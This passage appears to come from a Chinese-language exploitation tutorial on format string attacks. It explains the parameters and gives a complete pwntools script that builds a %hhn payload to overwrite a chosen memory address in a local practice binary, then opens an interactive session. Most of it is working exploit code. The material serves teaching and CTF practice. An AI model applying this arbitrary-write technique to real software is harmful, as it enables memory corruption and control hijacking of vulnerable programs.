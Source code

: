 ```
```  
  
其中每个参数的含义如下  
```
offset 表示要覆盖的地址最初的偏移
size 表示机器字长
addr 表示将要覆盖的地址。
target 表示我们要覆盖为的目的变量值。

```  
  
对应的exp如下  
```
from pwn import *

def fmt(prev, word, index):
    if prev < word:
        result = word - prev
        fmtstr = "%" + str(result) + "c"
    elif prev == word:
        result = 0
        fmtstr = "%0c"
    else:
        result = 256 + word - prev
        fmtstr = "%" + str(result) + "c"
    fmtstr += "%" + str(index) + "$hhn"
    return fmtstr


def fmt_str(offset, size, addr, target):
    payload = b""
    for i in range(4):
        if size == 4:
            payload += p32(addr + i)
        else:
            payload += p64(addr + i)
    prev = len(payload)
    for i in range(4):
        payload += fmt(prev, (target >> (i * 8)) & 0xff, offset + i).encode()
        prev = (target >> (i * 8)) & 0xff
    return payload


sh = process('./format2')
payload = fmt_str(6, 4, 0x0804c028, 0x12345678)
print(payload)
sh.sendline(payload)
print(sh.recv())
sh.interactive()

```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/rTicZ9Hibb6RVk9wp1dweolbZHwBlpQib72aMEYwlDkodmibATPt3lNT8yZhp0fMmiapwZaLwmLn2ic6HDEjBsRwGuhA/640?wx_fmt=png&from=appmsg "")  
  